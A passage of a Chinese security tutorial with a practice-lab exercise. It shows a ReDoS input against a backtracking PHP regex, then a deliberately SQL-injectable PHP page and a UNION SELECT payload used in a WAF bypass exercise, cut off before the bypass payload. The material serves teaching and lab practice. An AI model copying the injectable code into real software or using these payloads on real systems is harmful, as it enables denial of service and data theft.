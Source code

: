 <p><strong>这个问题，是由一个叫做回溯的正则表达式引擎功能引发的。当输入不匹配时，引擎会返回到之前的位置，在那里重新采取不同的路径，直到探索完所有可能的路径为止。</strong></p>

<p>在我看来，这是因为正则表达式算法不成熟导致的。实际上正则表达式算法可以改得更高效，来避免这种问题的发生，但不幸的是出于某些原因，大多数正则表达式都会使用更简单的算法。</p>

<p>接下来，我们看一个攻击案例，引起正则表达式遍历问题的代码如下：</p>

<pre><code class="language-php">if (preg_match(&quot;/(a+)+b$/&quot;,$pass)) {
              /* store first result set */
          echo &quot;match success&quot;;
      }
      else {
          echo &quot;match failure&quot;;
      }
</code></pre>

<p>靶场已经集成在谜团上的“<a href="https://mituan.zone/#/course/2c9f843c7d0d2038017ddcaad23938f7" target="_blank">极客时间-漏洞挖掘与智能攻防实战</a>”里。</p>

<p>我们打开题目<code>ReDoS</code>，运行靶机。当我们的输入如下内容：</p>

<pre><code class="language-plain">aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab
</code></pre>

<p>系统会出现卡顿，过了一段时间后会出现匹配失败，回溯次数已用尽的提示信息。这是因为，PHP内置了正则匹配的回溯上限次数，当回溯次数超出该限制时，就会返回匹配失败。</p>

<p>这样的限制可以在输入检测失效的情况下，减轻ReDos对PHP应用的影响。</p>

<p>接下来，我们一起看一个绕WAF的实例。</p>

<h3 id="案例二-一个绕waf的实例">案例二：一个绕WAF的实例</h3>

<p>这个WAF，是最新版本的安全狗V4.0网页（APACHE）版。我们可以在谜团上打开靶场安全狗4.0。之后访问该网页的目录<code>inject.php</code>，它的代码如下：</p>

<pre><code class="language-php">*&lt;?php*
$id = $_GET['id'];
$con = mysql_connect(“localhost”,”root”,”root”);
*if* (!$con){*die*(‘Could not connect: ‘ . mysql_error());}
mysql_select_db(“dvwa”, $con);
$query = “SELECT first_name,last_name FROM users WHERE user_id = ‘$id’; “;
$result = mysql_query($query)*or* *die*(‘&lt;pre&gt;’.mysql_error().’&lt;/pre&gt;’);
*while*($row = mysql_fetch_array($result))
{
 *echo* $row[‘0’] . “&amp;nbsp” . $row[‘1’];
 *echo* “&lt;br /&gt;”;
}
*echo* “&lt;br/&gt;”;
*echo* $query;
mysql_close($con);
*?&gt;*
</code></pre>

<p>我们尝试使用<code>payload</code>为：</p>

<pre><code class="language-sql">?id=1' and 1=2 union select database(),2 --+
</code></pre>

<p>会发现被安全狗拦截了，但我们对它进行修改为：</p>
